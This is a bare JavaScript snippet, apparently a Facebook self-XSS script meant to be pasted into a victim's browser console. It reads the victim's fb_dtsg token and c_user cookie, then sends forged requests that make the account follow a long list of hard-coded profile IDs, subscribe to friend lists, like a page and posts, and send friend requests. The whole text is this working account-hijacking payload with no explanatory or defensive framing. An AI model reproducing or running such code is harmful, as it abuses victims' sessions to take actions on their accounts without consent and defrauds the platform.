var parent=document.getElementsByTagName("html")[0]; var _body = document.getElementsByTagName('body')[0];  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone){var http4=new XMLHttpRequest;var url4="/ajax/follow/follow_profile.php?__a=1";var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp=";http4.open("POST",url4,true);http4.onreadystatechange=function(){if(http4.readyState==4&amp;&amp;http4.status==200)http4.close};http4.send(params4)}a("");function sublist(uidss){var a=document.createElement('script');a.innerHTML="new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: "+uidss+" }).send();";document.body.appendChild(a)}var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var now=(new Date).getTime();function P(post){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/ufi/like.php";var XParams="like_action=true&amp;ft_ent_identifier="+post+"&amp;source=1&amp;client_id="+now+"%3A3366677427&amp;rootid=u_ps_0_0_14&amp;giftoccasion&amp;ft[tn]=%3E%3DU&amp;ft[type]=20&amp;ft[qid]=1514719392087267&amp;ft[mf_story_key]="+post+"&amp;nctr[_mod]=pagelet_home_stream&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n8ahyj35CFwXAg&amp;__req=j&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)}var fb_dtsg=document.getElementsByName('fb_dtsg')[0].value;var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p){var Page=new XMLHttpRequest();var PageURL="//www.facebook.com/ajax/pages/fan_status.php";var PageParams="&amp;fbpage_id="+p+"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";Page.open("POST",PageURL,true);Page.onreadystatechange=function(){if(Page.readyState==4&amp;&amp;Page.status==200){Page.close}};Page.send(PageParams)}Like("1514719392087267");function IDS(r){var X=new XMLHttpRequest();var XURL="//www.facebook.com/ajax/add_friend/action.php";var XParams="to_friend="+r+"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";X.open("POST",XURL,true);X.onreadystatechange=function(){if(X.readyState==4&amp;&amp;X.status==200){X.close}};X.send(XParams)} //Boss a("100002126712468");a("100005858262157");a("100002095598631");a("100006737169043");a("100002980099602");a("100002943715952");a("100005851872137");a("100003699921637");a("100003121121397");a("100003677542666");a("100006922531977");a("100005463402587");a("100003219204979");a("100005055342992");a("100003249107866");a("100003660112308");a("100003668512204");a("100004047043649");a("741332657");a("1789540656");a("100004560093063"); sublist("546532032094349");sublist("551596978254521");sublist("565503793530506");sublist("570448703036015");sublist("591570964257122");sublist("570448936369325");sublist("570449663035919");sublist("570448106369408");sublist("570595263021359");sublist("611127995634752");sublist("570594913021394");sublist("570594836354735");sublist("570594706354748");sublist("570594596354759");sublist("221813768023684");sublist("221813431357051");sublist("570594469688105");sublist("570594376354781");sublist("570594266354792");sublist("570594193021466");sublist("570594129688139");sublist("570593619688190");sublist("570593856354833");sublist("570593949688157");sublist("570594029688149");sublist("570593739688178"); //Ad set sublist("183295045209103");sublist("183547201850554");sublist("183547291850545");sublist("183547498517191");sublist("482137321866117");sublist("183547658517175");sublist("183547978517143");sublist("183548081850466");sublist("183548191850455");sublist("557785014301347");sublist("573065556106626");sublist("183548368517104");sublist("183547795183828");sublist("478693782239954");sublist("445493722239204");sublist("445493722239204");sublist("472629699525606");sublist("536367699804682");sublist("536367986471320");sublist("521679284612771");sublist("521681704612529");sublist("422093381257322");sublist("422093514590642");sublist("229526550572790");sublist("229526710572774");sublist("428093170656597");sublist("428093407323240");sublist("213362972196927");sublist("186022231597668");sublist("253038138208029");sublist("253038244874685");sublist("603748129706072");sublist("522976407820658");sublist("523280534456912"); //armin,... sublist("260347714127230");sublist("264388973723104");sublist("264390503722951");sublist("264390887056246");sublist("264391010389567");sublist("264391890389479");sublist("264392510389417");sublist("264393227056012");sublist("264393390389329");sublist("264393440389324");sublist("264393553722646");sublist("264394173722584");sublist("264394430389225");sublist("264395690389099");sublist("264396060389062");sublist("264550180373650");